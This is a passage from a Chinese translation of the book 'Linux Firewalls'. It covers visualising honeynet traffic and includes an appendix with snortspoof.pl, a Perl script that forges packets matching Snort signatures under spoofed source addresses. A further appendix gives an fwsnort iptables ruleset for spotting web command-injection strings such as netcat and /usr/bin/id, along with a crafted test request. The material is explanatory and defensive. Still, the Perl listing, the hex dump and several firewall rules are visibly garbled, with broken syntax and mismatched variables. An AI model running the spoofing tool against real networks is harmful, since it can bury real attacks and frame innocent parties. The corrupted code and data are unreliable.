

图 14-13. 蜜网出站连接的点图

图 14-13 中的图表显示了一系列从蜜网中单个源地址（在 x 轴上表示为数字 1）到多个外部地址（在 y 轴上表示为 0 到 45 范围）的 SYN 数据包。每个 SYN 数据包的目标端口显示在 z 轴上。如你所见，有几个数据包发送到了 0-1000 范围内的低端口，还有几个发送到了 6000-7000 范围的高端口。这具有潜在的可疑性，但我们需要知道具体的目标端口才能做出更准确的判断。

## 使用 AfterGlow 绘制链路图

为此，我们使用相同的搜索参数绘制链路图：

```
# psad -m iptables.data --CSV --CSV-fields "src:11.11.0.0/16 dst:not11.11.0.0/16 dp" --CSV-regex "SYN URGP=" | perl afterglow.pl -c color.nf | neato -tpng -o fig14-14.png
```

AfterGlow 生成了如图 14-14 所示的图表。



图 14-14. 蜜网出站连接的链路图

与图 14-13 中相同数据的 Gnuplot 图表相比，图 14-14 的链路图更容易确定发生了什么。我们看到只有一个蜜网系统正在向外部 IP 地址发起 TCP 连接。源 IP 地址是 `11.11.79.67`，在链路图中间显示为一个椭圆。所有的矩形都是发送 SYN 数据包的外部 IP 地址，而圆圈则是目标端口。图中清晰地显示了多个 SSH 连接（在图右侧）以及多个指向外部系统的 IRC 连接（左侧的 TCP 端口 6667）。来自蜜网单个系统的这两类连接都是入侵的有力指标。

## 总结思考

安全数据的可视化表示能够快速传递重要信息，而这些信息如果通过其他方式分析可能会非常耗时。对于我们需要筛选由入侵检测系统和防火墙产生的海量数据的工程师来说，这无疑是一件好事。通过从安全数据中提取字段，并使用简单标准（如随时间变化的目标端口或来自本地网络的出站连接）对这些字段进行绘图，通常可以得出有趣的结论。对于 iptables 数据，`psad` 提供了从 iptables 日志中提取数据字段的手段，而 Gnuplot 和 AfterGlow 项目则将这些数据以图形形式生动地呈现出来。

许多管理员拥有从网络中各个点收集的 PCAP 文件原始数据包数据。尽管 `psad` 目前还不能直接解析 PCAP 文件，但你可以使用像 `tcpreplay` 这样的工具（参见 http://tcpreplay.synfin.net）将这些数据包数据发送到 iptables 防火墙，以便 iptables 记录数据包数据，从而由 `psad`、Gnuplot 和 AfterGlow 进行渲染。这个想法是我在与 Richard Bejtlich 的电子邮件往来中得到的建议。

# 附录 A. 攻击欺骗

如果说入侵检测系统（IDS）有一个共同点，那就是它们会产生误报——有时会对显然没有恶意流量发送警报。调优 IDS 是减少误报负载的必要要求，但即使是最精细调优的 IDS 也会将正常流量误认为是恶意攻击。网络是复杂的，即使是在不受任何攻击或恶意活动影响的隔离内部网络中，入侵检测系统也会产生误报。这为攻击者创造了机会。如果攻击者能够故意制造在 IDS 看来像是有害的网络流量，那么隐藏真实的攻击（或让监控 IDS 警报的人员忽略攻击）也可能是可能的。毕竟，IDS 的效果取决于监控其警报的人员——如果存在大量同样看似合理的警报，真实的攻击有时很容易被埋没在这些数据山中。

此外，攻击者可以通过使用第三方拥有的 IP 地址向 IDS 伪造攻击，从而嫁祸给无辜的第三方：IDS 管理员很难区分欺骗攻击和真实攻击。本附录后面出现的 `snortspoof.pl` 脚本将向你演示如何创建针对 Snort IDS 的此类虚假流量；在讨论该脚本时，我们还将介绍 Snort 为减轻此类攻击而采用的应对措施。

## 连接跟踪

正如第 9 章中所提到的，`stream4` 预处理器被添加到 Snort 中以对抗伪造的 TCP 攻击；它跟踪 TCP 会话的状态，并忽略那些并非通过已建立会话发送的攻击。从攻击者的角度来看，生成看起来像恶意流量的最佳方法是解析 IDS 使用的签名集，并构造带有伪造源 IP 地址且符合这些签名的数据包。

以下 Perl 脚本（`snortspoof.pl`）针对 Snort IDS 规则集所做的正是这件事。（该脚本随 fwsnort 项目分发，也可以从 http://www.cipherdlyne.org/linuxfirewalls 下载）。`snortspoof.pl` 脚本旨在演示在没有 stream 预处理器的情况下，使用 Perl 构建被 Snort 识别为恶意的 IP 数据包是多么简单。然而，该脚本并不旨在成为一个能够生成匹配所有 Snort 规则流量的全面程序。一些 Snort 规则包含对应用层数据的复杂描述（例如，在某些情况下使用 `pcre` 关键字指定正则表达式），而 `snortspoof.pl` 目前尚不能处理此类复杂情况。

```perl
[spoofer]$ cat snortspoof.pl
#!/usr/bin/perl -w

use Net::RawIP;
use strict;

my $file = $ARGV[0] || '';
my $spoof_addr = $ARGV[1] || '';
my $dst_addr = $ARGV[2] || '';

die "$0 <rules file> <spoof IP> <dst IP>"
unless $file and $spoof_addr and $dst_addr;
```

```perl
# alert udp $EXTERNAL_NET any -> $HOME_NET 613 {msg:"EXPLOIT 86x Linux # mountd overflow"; content:"\x80\x02 09 80 FE C8 89\x0B 40 60 80 B6 89\x0F";
# reference:Bugtraq, rg12
my $sig_cnt = 0;
open F, "< $file" or die "[*] Could not open $file: $!";
SIG: while (<F>) {
my $content = '';
my $conv_content = '';
my $hex_mode = 0;
my $proto = '';
my $spt = 10000;
my $dpt = 10000;
```

```perl
# make sure it is an inbound sig
if (/^\s*alert\s*(tcp|udp)\s*\$\(EXTERNAL_NET\)\s*any\s*->\s*\$\(HOME_NET\)\s*(\d+)/) { 
$proto = $1;
my $spt_tmp = $2;
my $dpt_tmp = $4;
}
```

```perl
# can't handle multiple content fields yet
next SIG if /\s*content\.*\s*content\/\/;

$content = $1 if /\s*content\:"(.*?)"\/\/;
next SIG unless $content;

if ($spt_tmp =~ /(\d+)/) {
$spt = $1;
} elsif ($spt_tmp ne 'any') {
next SIG;
}

if ($dpt_tmp =~ /(\d+)/) {
$dpt = $1;
} elsif ($dpt_tmp ne 'any') {
next SIG;
}
```

```perl
my @chars = split //, $content;
for (my $i=0; $i<@chars; $i++) {
if ($chars[$i] eq '|') {
$hex_mode = 0 ? ( $hex_mode = 1 ) : ( $hex_mode = 0 );
next;
}
if ($hex_mode) {
next if $chars[$i] eq ' ';
$conv_content .= sprintf("%c",
hex($chars[$i] . $chars[$i+1]));
$i++;
} else {
$conv_content .= $chars[$i];
}
}

my $rawpkt = '';
if ($proto eq 'tcp') {
$rawpkt = new Net::RawIP({'ip' => {
```

```perl
	saddr => $spoof_addr, daddr => $dst_addr),
	'tcp' => { source => $spt, dest => $dpt, 'ack' => 1,
	data => $conv_content})
	} else {
		 die "Could not get Net::RawIP object! $!";
	}
	$rawpkt = Net::RawIP->new({'ip' => {
		saddr => $spoof_addr, daddr => $dst_addr),
		'udp' => { source => $spt, dest => $dpt,
		data => $conv_content}})
	}
	or die "Could not get Net::RawIP object! $!";
	}
	$rawpkt->send();
	$sig_sent++;
	}
	}
	print "[+] $file, $sig_sent attacks sent.\n";
	close FO;
	exit 0;
```

深入分析源代码，在 ① 处，脚本使用了 `Net::RawIP` Perl 模块，该模块必须安装在您的系统中。（您可以从 http://www.cpan.org 下载）。在 ② 处，脚本打开命令行中指定的 Snort 规则文件，并迭代处理文件中的所有规则。在 ③ 处，`snortspoof.pl` 提取检测针对 `HOME_NET` 攻击的 TCP 和 UDP 签名；我们希望发送那些远程 Snort 传感器在监控进入 `HOME_NET` 的流量时会寻找的攻击。

代码中最复杂的部分始于 ④ —— 即解释 Snort 规则尝试在网络流量中匹配的应用层内容字符串。如果原始内容字段包含由管道符 (`|`) 包围的十六进制代码，`snortspoof.pl` 在将攻击数据包发送到网络之前，会将这些字符转换为它们实际代表的字节。

在 ③ 和 ⑤ 处，`snortspoof.pl` 使用 `Net::RawIP` Perl 模块来构建 TCP 或 UDP 数据包，其中包含命令行指定的源 IP 地址和目的 IP 地址、源端口号和目的端口号，以及源自 Snort 规则的应用层数据。最后，在 ⑥ 处，数据包被发送至目标 IP。

现在可以使用 `snortspoof.pl`，通过伪造源 IP 地址，发送与 `exploit.rules` 文件中包含的签名匹配的数据包来针对某个 IP 地址。

## 伪造 exploit.rules 流量

您可以按照以下方式从命令行执行 `snortspoof.pl`，以伪造 Snort `exploit.rules` 文件中的攻击数据包（将其构造为看起来来自 IP 地址 `11.11.22.22`），并将其发送到目标 IP 地址 `44.44.55.55`：

```bash
[spoofer]# ./snortspoof.pl /etc/fwsnort/snort_rules/exploit.rules 11.11.22.22 44.44.55.55
[+] /etc/fwsnort/snort_rules/exploit.rules, 53 attacks sent.
```

使用 `tcpdump`，我们可以确认 `snortspoof.pl` 的功能如其所述，能够针对目标 IP 地址生成攻击数据包。以下示例显示，Snort 规则 ID 315 “EXPLOIT x86 Linux mountd overflow”是通过 UDP 端口 635 发送的：

```
alert udp $EXTERNAL_NET any -> $HOME_NET 635 (msg:"EXPLOIT x86 Linux mountd overflow"; content:"\x80 02 89 00 PE 08 CE 89 [0] 04 80 06 89 [F]"; reference:bugtraq,121; reference:cve,1999-002; classtype:attempted-admin; sid:315; rev:1;)
```

现在我们使用 `snortspoof.pl` 脚本发送 `exploit.rules` 文件中描述的攻击（Snort 规则 ID 315 的内容字段以**粗体**显示）：

```
# spoofner# tcpdump -i eth1 -l -nn -v -X -c 1 port 635
tcpdump: verbose output suppressed, use -vv or -vvv for full protocol decode
23:32:08.563668 IP 11.11.22.22 > 44.44.55.55:635. UDP, length 14
0x0000: 4510 0008 4510 0000 4000 4111 62af 00b0 1616 0000  E..^..R..\u00b4..F...\u00b4
0x0010: 0010 08a0 0013 2710 0100 0016 9007 5e0b 0289 0289  .{..{....
0x0020: 06fe c889 4064 8609 4064 8086 8946 0000 0000 0000  ...F....F
1 packets captured
2 packets received by filter
0 packets dropped by kernel
```

数据包追踪结果显示，`snortspoof.pl` 将一个 UDP 数据包发送到了 IP 地址 `44.44.55.55` 的 635 端口，且与该数据包关联的应用层数据完全符合 Snort 规则 ID 315 的预期。Snort 和 fwsnort 在监测到此类数据包后都会生成一个事件，且 IP 地址 `11.11.22.22` 看起来像是罪魁祸首。

本附录讨论了攻击者如何利用 Snort 规则集作为创建恶意外观流量的指南，从而试图强制 Snort 生成误报事件。`snortspoof.pl` 脚本通过解析 Snort 规则集并使用原始套接字（raw sockets）向目标 IP 地址发送匹配的流量来实现这一过程的自动化。虽然 `snortspoof.pl` 仅适用于 Snort IDS，但类似的策略可以应用于任何使用签名检测可疑流量的 IDS；您只需要一份签名集副本和稍微修改过的 `snortspoof.pl` 版本即可。

## 伪造 UDP 攻击

许多入侵检测系统采用的一种对策是跟踪 TCP 连接状态，并且仅对通过已建立会话传输的攻击发送警报。这种方法对于通过 UDP 发送的攻击无效，除非采用基于时间的机制来同时跟踪客户端发送的数据包以及任何相应的服务器响应。以这种方式跟踪 UDP 通信将允许 IDS 不对模拟恶意服务器响应的伪造攻击发送警报，但它无法解决来自 UDP 客户端的伪造攻击，因为此类流量不需要双向通信。Snort-2.6.1 包含一个增强的 `stream5` 预处理器，支持 UDP，因此伪造 UDP 服务器响应在对抗 Snort 时效果已大打折扣。通常，解析 IDS 的签名集并在网络中伪造它，是测试 IDS 可能提供的任何连接跟踪能力的良好方法。

# 附录 B. 一个完整的 FWSNORT 脚本

在本附录中，您将看到一个 `fwsnort.sh` 脚本的完整示例；它是 fwsnort 针对 `web-attacks.rules` 文件中七条不同的 Snort 规则生成的。这些规则的 ID 分别为 1332, 1336, 1338, 1339, 1341, 1342 和 1360，旨在检测 Web 客户端尝试通过 Web 服务器执行某些命令的行为（通常是通过一个接受用户输入并由 Web 服务器执行的 CGI 程序）。这些命令在 Linux 系统中很常见，包括 `gcc` 编译器、`nc` (Netcat)、`chown`、C shell `csh` 和 `id`（用于查询分配给当前用户的 UID 和 GID 值）。Web 客户端任何强制 Web 服务器执行这些命令的严肃尝试都极有可能是可疑的。

要创建 `fwsnort.sh` 脚本并使其包含上述七条 Snort 规则的 iptables 命令，请按如下方式执行 fwsnort：


上述输出表明 Snort 规则已正确转换为 iptables 规则（部分输出已省略），且`fwsnort.sh`脚本存在于`/etc/fwsnort`目录中。其完整且未省略的形式如下所示。

```bash
[iptablesfw]# cat /etc/fwsnort/fwsnort.sh
#!/bin/sh
#
######################################################################
#
# File:   /etc/fwsnort/fwsnort.sh
#
# Purpose:  This script was auto-generated by fwsnort and implements an
#   iptables rule-set based upon Snort rules. For more information,
#   see the fwsnort man page or the documentation available at
#   http://www.cipherdyne.org/fwsnort.
#
# Generated with:   fwsnort --snort-id 1332,1336,1338,1339,1341,1342,1360
# Generated on host: iptablesfw
# Generated at:     Wed Jul 18 18:26:19 2007
#
# Generated on host: iptables
#
# Author:   Michael Rash <mbr@cipherdyne.org>
#
# Version: 1.0 (file revision: 381)
#
################################################################################
#
#========================== config ===========================

ECHO=/bin/echo

IPTABLES=/sbin/iptables


#========================== end config =====================

###

################ Create fwsnort iptables chains. ###############

$IPTABLES -N FWSNORT_FORWARD 2> /dev/null
$IPTABLES -F FWSNORT_FORWARD

$IPTABLES -N FWSNORT_FORWARD_ESTAB 2> /dev/null
$IPTABLES -F FWSNORT_FORWARD_ESTAB

$IPTABLES -N FWSNORT_INPUT 2> /dev/null
$IPTABLES -F FWSNORT_INPUT

$IPTABLES -N FWSNORT_INPUT_ESTAB 2> /dev/null
$IPTABLES -F FWSNORT_INPUT_ESTAB

$IPTABLES -N FWSNORT_OUTPUT 2> /dev/null
$IPTABLES -F FWSNORT_OUTPUT

$IPTABLES -N FWSNORT_OUTPUT_ESTAB 2> /dev/null
$IPTABLES -F FWSNORT_OUTPUT_ESTAB

###

################ Inspect ESTABLISHED tcp connections. ###############

$IPTABLES -A FWSNORT_FORWARD -p tcp -m state --state ESTABLISHED -j FWSNORT_FORWARD_ESTAB
$IPTABLES -A FWSNORT_INPUT -p tcp -m state --state ESTABLISHED -j FWSNORT_INPUT_ESTAB
$IPTABLES -A FWSNORT_OUTPUT -p tcp -m state --state ESTABLISHED -j FWSNORT_OUTPUT_ESTAB

###

################ web-attacks.rules #####################

### alert tcp $EXTERNAL_net any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS /usr/bin/id command attempt"; flow:to_server,established; content:"usr/bin/id"; nocase; classtype:web-application-attack; sid:1332; rev:5)
$IPTABLES -A FWSNORT_FORWARD ESTAB -s 192.168.10.0/24 -p tcp --dport 80 -m string --string "/usr/bin/id" --algo bm -m comment --comment "msg: WEB-ATTACKS /usr/bin/id command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-tcp-options --log-prefix "[1] SID1332 ESTAB"
$IPTABLES -A FWSNORT_INPUT ESTAB -p tcp --dport 80 -m string --string "/usr/bin/id" --algo bm -m comment --comment "msg: WEB-ATTACKS /usr/bin/id command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-tcp-options --log-prefix "[1] SID1332 ESTAB"

### alert tcp $EXTERNAL_net any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS chmod command attempt"; flow:to_server,established; content:"bin/chmod"; nocase; classtype:web-application-attack; sid:1336; rev:5)
$IPTABLES -A FWSNORT_FORWARD ESTAB -s 192.168.10.0/24 -p tcp --dport 80 -m string --string "/bin/chmod" --algo bm -m comment --comment "msg: WEB-ATTACKS chmod command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[2] SID1336 ESTAB "
```

```bash
$IPTABLES -A FWSNORT_INPUT_ESTAB -p tcp --dport 80 -m string --string "/bin/chmod" --algo bm -m comment --comment "msg: WEB-ATTACKS chmod command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[2] SID1336 ESTAB"
```

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS chown command attempt"; flow:to_server,established; content:"/chown"; nocase; classtype:web-application-attack; sid:1338; rev:6;)
```

```bash
$IPTABLES -A FWSNORT_FORWARD ESTAB -d 192.168.10.0/24 -p tcp --dport 80 -m string --string "/chown" --algo bm -m comment --comment "msg: WEB-ATTACKS chown command attempt; classtype: web-application-attack; rev:6; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[3] SID1338 ESTAB"

$IPTABLES -A FWSNORT_INPUT_ESTAB -p tcp --dport 80 -m string --string "/chown" --algo bm -m comment --comment "msg: WEB-ATTACKS chown command attempt; classtype: web-application-attack; rev: 6; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[3] SID1338 ESTAB"
```

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS csh command attempt"; flow:to_server,established; content:"/usr/bin/csh"; nocase; classtype:web-application-attack; sid:1339; rev:5;)
```

```bash
$IPTABLES -A FWSNORT_FORWARD ESTAB -d 192.168.10.0/24 -p tcp --dport 80 -m string --string "/usr/bin/csh" --algo bm -m comment --comment "msg: WEB-ATTACKS csh command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[4] SID1339 ESTAB"

$IPTABLES -A FWSNORT_INPUT_ESTAB -p tcp --dport 80 -m string --string "/usr/bin/csh" --algo bm -m comment --comment "msg: WEB-ATTACKS csh command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[4] SID1339 ESTAB"
```

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS /usr/bin/gcc command attempt"; flow:to_server,established; content:"/usr/bin/gcc"; nocase; classtype:web-application-attack; sid:1341; rev:5;)
```

```bash
$IPTABLES -A FWSNORT_FORWARD ESTAB -d 192.168.10.0/24 -p tcp --dport 80 -m string --string "/usr/bin/gcc" --algo bm -m comment --comment "msg: WEB-ATTACKS /usr/bin/gcc command attempt; classtype: web-application-attack; rev: 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[5] SID1341 ESTAB"

$IPTABLES -A FWSNORT_INPUT_ESTAB -p tcp --dport 80 -m string --string "/usr/bin/gcc" --algo bm -m comment --comment "msg: WEB-ATTACKS /usr/bin/gcc command attempt; classtype: web-application-attack; rev:5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[5] SID1341 ESTAB"
```

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS netcat command attempt"; flow:to_server,established; content:"nc%20"; nocase; classtype:web-application-attack; sid:1360; rev:5;)
```

```bash
$IPTABLES -A FWSNORT_FORWARD ESTAB -s 192.168.10.0/24 -p tcp --dport 80 -m string --string "nc%20" --algo bm -m comment --comment "msg: WEB-ATTACKS netcat command attempt; classtype: web-application-attack; rev 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[6] SID1360 ESTAB"

$IPTABLES -A FWSNORT_INPUT ESTAB -p tcp --dport 80 -m string --string "nc%20" --algo bm -m comment --comment "msg: WEB-ATTACKS netcat command attempt; classtype: web-application-attack; rev 5; FWS:0.9.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[6] SID1360 ESTAB"

# Rules added: 14

$IPTABLES -A FWSNORT_FORWARD -D FORWARD -i lo -j FWSNORT_FORWARD 2> /dev/null
$IPTABLES -I FORWARD 1 -i lo -j FWSNORT_FORWARD
$IPTABLES -D INPUT -i lo -j FWSNORT_INPUT 2> /dev/null
$IPTABLES -I INPUT 1 -i lo -j FWSNORT_INPUT
$IPTABLES -D OUTPUT 0 -o lo -j FWSNORT_OUTPUT 2> /dev/null
$IPTABLES -I OUTPUT 1 -o lo -j FWSNORT_OUTPUT

### EOF EOF
```

在 ➊ 处，用于执行`fwsnort`的命令行参数被包含在`fwsnort.sh`脚本头中。这对于确定`fwsnort`正确构建`fwsnort.sh`脚本头的方式非常有用。在 ➋ 处，`fwsnort.sh`创建了一组自定义链，所有签名匹配规则都将被添加到这些链中。这在`fwsnort`规则与系统中任何现有`iptables`策略的规则之间保持了一定程度的分离。其结果是`fwsnort`策略与任何现有的`iptables`策略都兼容。


一组`iptables`规则从➌处开始；这些规则使用`Netfilter`连接跟踪系统，将属于`ESTABLISHED`（已建立）连接的 TCP 数据包发送到`fwsnort`链`FWSNORT_FORWARD_ESTAB`、`FWSNORT_INPUT_ESTAB`和`FWSNORT_OUTPUT_ESTAB`中。这使得`fwsnort`能够将昂贵的应用层字符串匹配操作限制在属于真实 TCP 连接的数据包中。所有包含`flow: established;`选项的已翻译`Snort`规则都被添加到这些链中。关于此主题的更多内容可以在第 9 章中找到。

`fwsnort.sh`脚本的真正核心部分从➍处开始。在这里，`iptables`被指示在应用层数据中搜索由七个`Snort`签名描述的字符串。如果任何`iptables`规则在 Web 会话中被触发，则会生成一条`iptables` syslog 消息，以便`psad`进行分析。最后，在➎处，`fwsnort`策略删除并重新添加规则，将网络流量从内置的`INPUT`、`OUTPUT`和`FORWARD`链跳转到自定义的`fwsnort`链`FWSNORT_INPUT`、`FWSNORT_OUTPUT`和`FWSNORT_FORWARD`中。（先删除跳转规则可以让`fwsnort.sh`脚本多次执行而不会添加多份相同的跳转规则副本。）一旦网络流量跳转到`fwsnort`链，每个数据包都会执行`fwsnort`的白名单、黑名单和签名检查操作。

要在 Linux 内核中激活`fwsnort`策略，只需执行`fwsnort.sh`脚本：

```bash
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding web-attacks rules.
Rules added: 14
```

最后，为了验证`fwsnort`策略是否在正常工作，您可以从外部系统向内部 Web 服务器发送一个精心构造的 Web 请求，其中包含字符串`/usr/bin/gcc`（参见[图 1-2]中的网络图）：

```bash
[ext_scanner]# wget http://71.157.X.X/cgi/test.cgi?cmd=/usr/bin/gcc%20-Wall%20test%2e test%2e
--19:44:58-- http://71.157.X.X/cgi/test.cgi?cmd=/usr/bin/gcc%20%20-Wall%20test%2e
Connecting to 71.157.X.X:80... connected.
 --> 'test.cgi?cmd=%2Fusr%2Fbin%2Fgcc%20-Wall%20test.'
HTTP request sent, awaiting response... 404 Not Found
19:44:58 ERROR 404: Not Found.
```

在发送 Web 请求后，您将在`iptables`系统的 syslog 中看到以下日志消息：

```text
Mar 18 19:45:03 iptablesfw Kernel: [5] SID1341 ESTAB IN=eth0 OUT=eth1 SRC=144.202.X.X DST=192.168.10.3 LEN=198 TOS=0x00 PREC=0x00 TTL=63 ID=60529 DF PROTO=TCP SPT=42180 DPT=80 WINDOW=92 RES=0x00 ACK PSH URGP=0
```

## 版后记（COLOPHON）

《Linux Firewalls》使用 Adobe FrameMaker 排版。所使用的字体族为：正文使用 New Baskerville，标题和表格使用 Futura，书名使用 Dogma。

本书由密歇根州安阿伯市的 Malloy Incorporated 公司印刷和装订。纸张采用 Glatfelter Thor 60# Antique，其中包含 15% 的消费后再生材料。本书采用 RepKover 装订，使其在打开时可以平铺。
